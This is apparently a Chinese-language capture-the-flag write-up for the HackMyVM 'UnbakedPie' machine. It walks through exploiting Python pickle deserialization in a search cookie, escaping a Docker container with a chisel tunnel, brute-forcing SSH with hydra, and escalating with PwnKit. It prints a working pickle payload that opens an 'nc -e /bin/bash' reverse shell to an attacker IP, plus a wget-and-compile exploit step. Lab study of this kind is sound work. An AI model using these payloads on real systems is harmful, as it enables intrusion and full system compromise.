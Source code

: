```yaml
---
{"created":"2024-11-28T17:42:52.177+08:00","tags":["HMV","PwnKit提取","容器逃逸","pickle反序列化","端口转发","隧道搭建"],"Type":"wp","dg-publish":true,"难度":"⭐️⭐️⭐️⭐️⭐️","作者":"ch4rm","aliases":null,"permalink":"/24-渗透/HMV/32.UnbakedPie/","dgPassFrontmatter":true,"noteIcon":"2"}
---
```


## 1. 基本信息^toc

- [[24-渗透/HMV/32.UnbakedPie#1. 基本信息^toc\|1. 基本信息]]
- [[24-渗透/HMV/32.UnbakedPie#2. 信息收集\|2. 信息收集]]
- [[24-渗透/HMV/32.UnbakedPie#3. python反序列化\|3. python反序列化]]
- [[24-渗透/HMV/32.UnbakedPie#4. docker逃逸&提权\|4. docker逃逸&提权]]
- [[24-渗透/HMV/32.UnbakedPie#5. 端口转发 与SSH爆破\|5. 端口转发 与SSH爆破]]
	- [[24-渗透/HMV/32.UnbakedPie#5.1. chisel 搭建端口转发\|5.1. chisel 搭建端口转发]]
	- [[24-渗透/HMV/32.UnbakedPie#5.2. hydra爆破密码\|5.2. hydra爆破密码]]
- [[24-渗透/HMV/32.UnbakedPie#6. 提权\|6. 提权]]
**靶机链接** https://hackmyvm.eu/machines/machine.php?vm=UnbakedPie
**作者** [ch4rm](https://hackmyvm.eu/profile/?user=ch4rm)
**难度** ⭐️⭐️⭐️⭐️⭐️

## 2. 信息收集
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# nmap -sS 192.168.56.27 -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-11-28 17:53 CST

Nmap scan report for 192.168.56.27
Host is up (0.0010s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE
5003/tcp open  filemaker
MAC Address: 08:00:27:10:44:F1 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 959.54 seconds
```

网站
![](/img/user/24-渗透/HMV/assets/Pasted image 20241128182147.png)
![](/img/user/24-渗透/HMV/assets/Pasted image 20241128183615.png)
 
`Server WSGIServer/0.2 CPython/3.8.6`
Python写的

上面有一个搜索框
抓包看看数据
![](/img/user/24-渗透/HMV/assets/Pasted image 20241128202309.png)
`gA` 开头 一眼 [python反序列化](../../21-CTF/python/python反序列化.md)

对这个进行解码看一下
```python
import base64
a='gASVCgAAAAAAAACMBjEyMzEyM5Qu'
print(base64.b64decode(a))

输出
b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
```

```python
import pickle

p = b'\x80\x04\x95\n\x00\x00\x00\x00\x00\x00\x00\x8c\x06123123\x94.'
d = pickle.loads(p)
print(d)

输出
123123
```

## 3. python反序列化

123123就是我们输入的明文搜索内容

那我们直接构建一个反弹shell的payload

![](/img/user/24-渗透/HMV/assets/Pasted image 20241128230329.png)


```python
import pickle, os, base64
class P(object):
    def __reduce__(self):
        return (os.system,("nc -e /bin/bash 192.168.80.5 1111 ",))
print(base64.b64encode(pickle.dumps(P())))

输出：
gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu
```
> [!warning]
> 
这里一定要用Linux生成payload，因为其使用了 `os.system` 这个函数在linux与windows有所不同。所以要与靶机的系统相同。使用Linux生成payload

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# python payload.py
b'gASVPQAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjCJuYyAtZSAvYmluL2Jhc2ggMTkyLjE2OC44MC41IDExMTEglIWUUpQu'

```
然后在这个位置随便搜索一下。抓个包替换掉 `search_cookie`
![](/img/user/24-渗透/HMV/assets/Pasted image 20241201120622.png)
开启监听 发包 反弹shell
![](/img/user/24-渗透/HMV/assets/Pasted image 20241201120703.png)
## 4. docker逃逸&提权
进来后会发现自己是root权限
但其实是在docker里面
![](/img/user/24-渗透/HMV/assets/Pasted image 20241201120834.png)
可以在根目录看到有一个 `.dockerenv` 文件。这就是在容器里面的特征之一

上传 [cdk](../../26-工具使用/CDK使用.md) 进行检测

先看一下内核版本
```bash
(remote) root@8b39a559b296:/tmp# uname -a
Linux 8b39a559b296 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 GNU/Linux
```

试了好几个发现都不能成功，还是在看看其他利用点吧

看一下历史记录
```bash
history
```
![](/img/user/24-渗透/HMV/assets/Pasted image 20241201135010.png)
这里面可以看到容器进行了一个内网的ssh连接 用户名是 `ramsey` IP是 `172.17.0.1`
这个ip可能就是主机IP 

我们尝试进行ssh连接一下
```bash
(remote) root@8b39a559b296:/tmp# ssh ramsey@172.17.0.1
bash: ssh: command not found
```
发现容器并没有安装ssh。 可能是已经杯卸载了

但是主机是不是开放了 ssh服务这对我们十分重要
在开始进行端口扫描时 就可以发现主机只对外开放了5003端口 并没有22端口
我们看看主机对内开放什么端口
```bash
(remote) root@8b39a559b296:/tmp# nc -znv 172.17.0.1 1-65535
(UNKNOWN) [172.17.0.1] 5003 (?) open
(UNKNOWN) [172.17.0.1] 22 (ssh) open
```
可以看到对内是开放了ssh服务的

## 5. 端口转发 与SSH爆破
此时我们知道了主机 ssh的用户名与ip
**那么我们这时候只需要搭建一个容器与kali的隧道，使得主机可以访问容器内网，然后在kali上进行ssh爆破即可**


### 5.1. chisel 搭建端口转发
使用kali给容器传一个 [chisel](../../26-工具使用/chisel%20使用.md)

kali开启反向监听
```bash
┌──(root㉿kali)-[/home]
└─# ./chisel server -p 9999 --reverse
2024/12/01 14:07:07 server: Reverse tunnelling enabled
2024/12/01 14:07:07 server: Fingerprint sP2BcLu3iBtJ8s51afwrmDlqpOsmsqVe64WNopPvgQM=
2024/12/01 14:07:07 server: Listening on http://0.0.0.0:9999

```

容器连接并配置反向端口转发
```bash
(remote) root@8b39a559b296:/tmp# ./chisel client 192.168.80.5:9999 R:8888:172.17.0.1:22
2024/12/01 06:09:54 client: Connecting to ws://192.168.80.5:9999
2024/12/01 06:09:54 client: Connected (Latency 799.51µs)

```

这时候访问就可以通过kali本地的 `127.0.0.1:8888` 访问到容器的 `172.17.0.1:22`

### 5.2. hydra爆破密码

```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# hydra -l ramsey -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1:8888
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-12-01 14:12:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://127.0.0.1:8888/
[8888][ssh] host: 127.0.0.1   login: ramsey   password: 12345678

```
成功获取到密码 `12345678`

ssh连接获取flag
```bash
┌──(root㉿kali)-[/home/kali/hmv/UnbakedPie]
└─# ssh ramsey@127.0.0.1 -p 8888
The authenticity of host '[127.0.0.1]:8888 ([127.0.0.1]:8888)' can't be established.
ED25519 key fingerprint is SHA256:B6SoW4WBwsc2n9NynSce9+R0E44T4YkZVRxD5y5Muhc.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[127.0.0.1]:8888' (ED25519) to the list of known hosts.
ramsey@127.0.0.1's password:
Welcome to Ubuntu 16.04.7 LTS (GNU/Linux 4.4.0-186-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage


39 packages can be updated.
26 updates are security updates.


Last login: Sat Oct  3 22:15:57 2020 from 172.17.0.2


ramsey@unbaked:~$ cat user.txt
Unb4ked_W00tw00t

```
## 6. 提权
使用 [LZS](../../26-工具使用/LZS使用.md) 进行提权检测
发现可以用Pwnkit提权
直接提权
```bash
bash lzs.sh //提权检测
wget http://192.168.80.5/main.tar.gz
tar -zxvf main.tar.gz
cd CVE-2021-4034-main/
make
./cve-2021-4034
```

> pwncat下载的 `mian` 默认是zip压缩的。但是靶机上是没有 `unzip` 的所以要先在外面解压然后用`tar`打包 再传给靶机
```root@unbaked:/root# cat root.txt
CONGRATS ON PWNING THIS BOX!
Created by ch4rm & H0j3n
ps: dont be mad us, we hope you learn something new

flag: Unb4ked_GOtcha!
```

